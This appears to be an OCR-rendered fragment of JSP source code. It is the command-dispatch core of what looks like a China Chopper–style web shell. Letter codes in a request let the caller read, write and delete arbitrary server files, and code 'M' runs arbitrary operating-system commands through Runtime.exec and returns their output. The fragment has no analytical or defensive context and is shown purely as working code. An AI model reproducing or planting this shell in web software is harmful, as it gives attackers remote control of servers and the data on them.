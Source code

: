 ```jsp
        } else if (Z.equals("B")) {
            BB(z1, sb);
        } else if (Z.equals("C")) {
            String l = "";
            BufferedReader br = new BufferedReader(
                    new InputStreamReader(new FileInputStream(new File(
                            z1))));
            while ((l = br.readLine()) != null) {
                sb.append(l + "\r\n");
            }
            br.close();
        } else if (Z.equals("D")) {
            BufferedWriter bw = new BufferedWriter(
                    new OutputStreamWriter(new FileOutputStream(
                            new File(z1))));
            bw.write(z2);
            bw.close();
            sb.append("1");
        } else if (Z.equals("E")) {
            EE(z1);
            sb.append("1");
        } else if (Z.equals("F")) {
            FF(z1, response);
        } else if (Z.equals("G")) {
            GG(z1, z2);
            sb.append("1");
        } else if (Z.equals("H")) {
            HH(z1, z2);
            sb.append("1");
        } else if (Z.equals("I")) {
            II(z1, z2);
            sb.append("1");
        } else if (Z.equals("J")) {
            JJ(z1);
            sb.append("1");
        } else if (Z.equals("K")) {
            KK(z1, z2);
            sb.append("1");
        } else if (Z.equals("L")) {
            LL(z1, z2);
            sb.append("1");
        } else if (Z.equals("M")) {
            String[] c = { z1.substring(2), z1.substring(0, 2), z2 };
            Process p = Runtime.getRuntime().exec(c);
            MM(p.getInputStream(), sb);
            MM(p.getErrorStream(), sb);
        } else if (Z.equals("N")) {
            NN(z1, sb);
        } else if (Z.equals("O")) {
            OO(z1, sb);
        } else if (Z.equals("P")) {
            PP(z1, sb);
        } else if (Z.equals("Q")) {
            QQ(cs, z1, z2, sb);
        }
    } catch (Exception e) {
        sb.append("ERROR" + ":// " + e.toString());
    }
    sb.append("|" + "<-");
    out.print(sb.toString());
%>
```
